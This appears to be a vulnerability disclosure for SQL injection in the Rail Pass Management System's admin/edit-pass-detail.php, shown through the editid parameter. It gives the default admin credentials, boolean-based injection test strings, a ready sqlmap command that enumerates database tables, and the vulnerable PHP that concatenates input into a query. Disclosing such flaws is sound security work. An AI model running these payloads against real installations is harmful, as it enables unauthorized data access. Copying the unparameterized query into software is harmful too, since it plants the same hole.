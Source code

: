 # [Rail Pass Management System-SQL Injection-edit-pass-detail.php]

## Basic Information

**[Bug Reporter]:**DiliLearngent

**[Application Vendors]:**`https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]:**windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:**SQL Injection

**[Vulnerability Url]:**`http://localhost/rpms/admin/edit-pass-detail.php?editid=1`    

**[Vulnerability Location]:**rpms/admin/edit-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164127.png)

   

2. When you enter `1%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164154.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-pass-detail.php?editid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427164442.png)

**[code analysis]:**

rpms/admin/edit-pass-detail.php

```php
$eid=$_GET['editid'];
$sql="SELECT * from  tblpass where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?> 
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.
